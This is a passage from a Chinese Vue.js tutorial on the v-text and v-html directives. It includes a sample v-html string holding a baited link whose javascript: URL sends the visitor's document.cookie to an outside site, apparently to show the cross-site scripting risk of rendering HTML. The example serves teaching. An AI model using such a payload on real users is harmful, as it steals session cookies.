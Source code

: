 ```html

	<script type="text/javascript">
		Vue.config.productionTip = false 
		
		new Vue({
			el:'#root',
			data:{
				name:'JOJO',
				str:'<h3>你好啊！</h3>'
			}
		})
	</script>
</html>
123456789101112131415161718192021222324252627
```

**效果：**

![](https://img-blog.csdnimg.cn/img_convert/739ed5a4c0c853f138776edb8273dcb1.png)

**总结：**

-   之前学过的指令：
    
    -   `v-bind`：单向绑定解析表达式，可简写为`:`
    -   `v-model`：双向数据绑定
    -   `v-for`：遍历数组 / 对象 / 字符串
    -   `v-on`：绑定事件监听，可简写为`@`
    -   `v-if`：条件渲染（动态控制节点是否存存在）
    -   `v-else`：条件渲染（动态控制节点是否存存在）
    -   `v-show`：条件渲染 (动态控制节点是否展示)
-   `v-text`指令：
    
    1.  作用：向其所在的节点中渲染文本内容
        
    2.  与插值语法的区别：`v-text`会替换掉节点中的内容，`{{xx}}`则不会。
        

#### 1.16.2. v-html指令

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<div>Hello，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'JOJO',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
```
